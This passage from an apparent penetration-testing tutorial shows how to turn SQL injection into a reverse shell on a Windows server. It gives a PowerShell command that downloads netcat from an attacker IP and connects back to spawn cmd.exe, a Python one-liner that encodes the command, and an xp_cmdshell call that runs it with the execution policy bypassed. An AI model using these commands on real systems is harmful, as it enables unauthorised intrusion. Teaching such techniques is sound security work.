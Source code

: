 The website should once again give a regular response.

## Reverse Shell

At this point, we have successfully turned our SQLi into RCE. Let's finish off with a proper reverse shell. There are many ways to do this; in this case, we chose to use a Windows `netcat` binary to run `cmd.exe` on a connection.

The (powershell) command we want the server to run looks like this. First, we download `nc.exe` from our `attacker machine`, and then we connect to port `9999` on our `attacker machine` and run `cmd.exe`.

```powershell
(new-object net.webclient).downloadfile("http://192.168.43.164/nc.exe", "c:\windows\tasks\nc.exe");
c:\windows\tasks\nc.exe -nv 192.168.43.164 9999 -e c:\windows\system32\cmd.exe;

```

To avoid the hassle of quotation marks, `encoding` PowerShell payloads is prefered. One useful tool to do so is from [Raikia's Hub](https://raikia.com/tool-powershell-encoder/), however, it is known that from time to time it goes offline. As penetration testers, it is important to know how to perform such tasks without relying on any external tools. To encode the payload, we need to first convert it to `UTF-16LE` ( `16-bit Unicode Transformation Format Little-Endian`) then Base64-encode it. We can use the following Python3 one-liner to encode the payload, replacing `PAYLOAD` with the actual `PowerShell` one:

```shell
python3 -c 'import base64; print(base64.b64encode((r"""PAYLOAD""").encode("utf-16-le")).decode())'

```

```shell
python3 -c 'import base64; print(base64.b64encode((r"""(new-object net.webclient).downloadfile("http://192.168.43.164/nc.exe", "c:\windows\tasks\nc.exe"); c:\windows\tasks\nc.exe -nv 192.168.43.164 9999 -e c:\windows\system32\cmd.exe;""").encode("utf-16-le")).decode())'

KABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAGYAaQBsAGUAKAAiAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQAMwAuADEANgA0AC8AbgBjAC4AZQB4AGUAIgAsACAAIgBjADoAXAB3AGkAbgBkAG8AdwBzAFwAdABhAHMAawBzAFwAbgBjAC4AZQB4AGUAIgApADsAIABjADoAXAB3AGkAbgBkAG8AdwBzAFwAdABhAHMAawBzAFwAbgBjAC4AZQB4AGUAIAAtAG4AdgAgADEAOQAyAC4AMQA2ADgALgA0ADMALgAxADYANAAgADkAOQA5ADkAIAAtAGUAIABjADoAXAB3AGkAbgBkAG8AdwBzAFwAcwB5AHMAdABlAG0AMwAyAFwAYwBtAGQALgBlAHgAZQA7AA==

```

With the encoded payload, we need to pass it to `powershell`, setting the `Execution Policy` to `bypass` along with the `-enc` ( `encoded`) flag. The command we will want the server to execute becomes:

```sql
exec xp_cmdshell 'powershell -exec bypass -enc KABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAGYAaQBsAGUAKAAiAGgAdAB0AHAAOgAvAC8AMQA5ADIALgAxADYAOAAuADQAMwAuADEANgA0AC8AbgBjAC4AZQB4AGUAIgAsACAAIgBjADoAXAB3AGkAbgBkAG8AdwBzAFwAdABhAHMAawBzAFwAbgBjAC4AZQB4AGUAIgApADsAIABjADoAXAB3AGkAbgBkAG8AdwBzAFwAdABhAHMAawBzAFwAbgBjAC4AZQB4AGUAIAAtAG4AdgAgADEAOQAyAC4AMQA2ADgALgA0ADMALgAxADYANAAgADkAOQA5ADkAIAAtAGUAIABjADoAXAB3AGkAbgBkAG8AdwBzAFwAcwB5AHMAdABlAG0AMwAyAFwAYwBtAGQALgBlAHgAZQA7AA=='

```
